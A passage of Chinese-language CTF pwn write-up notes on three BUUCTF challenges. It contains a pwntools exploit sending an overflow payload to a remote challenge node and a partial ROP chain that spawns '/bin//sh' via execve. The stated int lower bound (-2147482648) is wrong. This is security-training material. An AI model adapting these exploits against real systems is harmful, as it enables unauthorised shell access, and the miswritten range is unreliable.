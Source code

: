 ```python
```

## wustctf2020_number_game(-2147483649)

int的取值范围[-2147482648,2147483647]
要绕过检查就取-2147483649即可

![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-9c1d2cd084550867.png)

## 护网杯_2018_gettingstart(0.1在内存里的表示)
就是值的覆盖，考察0.1在内存里的表示
[Double (IEEE754 Double precision 64-bit) Converter (binaryconvert.com)](http://www.binaryconvert.com/convert_double.html?decimal=048046050)

```python
from pwn import *

p=remote('node4.buuoj.cn',25052)

payload='a'*0x18+p64(0x7FFFFFFFFFFFFFFF)+p64(0x3FB999999999999A)
p.sendline(payload)
p.interactive()
```

## 强网杯2019 拟态 STKOF(拟态+静态链接rop链)
静态链接库题，和构造rop链脱不了关系
第一次做拟态题，大致就是32位和64位同时运行，共用一个payload，且结果必须相同
因为长度原因对ropchain进行了改造，注意最后有puts函数，用\x00截断

```python
# execve generated by ROPgadgetfrom struct import pack
from pwn import *
from struct import pack
rop32 = ''
rop32 += pack('<I', 0x0806e9cb) # pop edx ; ret
rop32 += pack('<I', 0x080d9060) # @ .data
rop32 += pack('<I', 0x080a8af6) # pop eax ; ret
rop32 += '/bin'
rop32 += pack('<I', 0x08056a85) # mov dword ptr [edx], eax ; ret
rop32 += pack('<I', 0x0806e9cb) # pop edx ; ret
rop32 += pack('<I', 0x080d9064) # @ .data + 4
rop32 += pack('<I', 0x080a8af6) # pop eax ; ret
rop32 += '//sh'
rop32 += pack('<I', 0x08056a85) # mov dword ptr [edx], eax ; ret
rop32 += pack('<I', 0x0806e9cb) # pop edx ; ret
rop32 += pack('<I', 0x080d9068) # @ .data + 8
rop32 += pack('<I', 0x08056040) # xor eax, eax ; ret
rop32 += pack('<I', 0x08056a85) # mov dword ptr [edx], eax ; ret
rop32 += pack('<I', 0x080481c9) # pop ebx ; ret
rop32 += pack('<I', 0x080d9060) # @ .data
rop32 += pack('<I', 0x0806e9f2) # pop ecx ; pop ebx ; ret
rop32 += pack('<I', 0x080d9068) # @ .data + 8
rop32 += pack('<I', 0x080d9060) # padding without overwrite ebx
rop32 += pack('<I', 0x0806e9cb) # pop edx ; ret
rop32 += pack('<I', 0x080d9068) # @ .data + 8
rop32 += pack('<I', 0x08056040) # xor eax, eax ; ret
rop32 += pack('<I', 0x080a8af6) # pop eax ; ret
rop32 += p32(0xb)
rop32 += pack('<I', 0x080495a3) # int 0x80

rop64 = ''
rop64 += pack('<Q', 0x0000000000405895) # pop rsi ; ret
rop64 += pack('<Q', 0x00000000006a10e0) # @ .data
```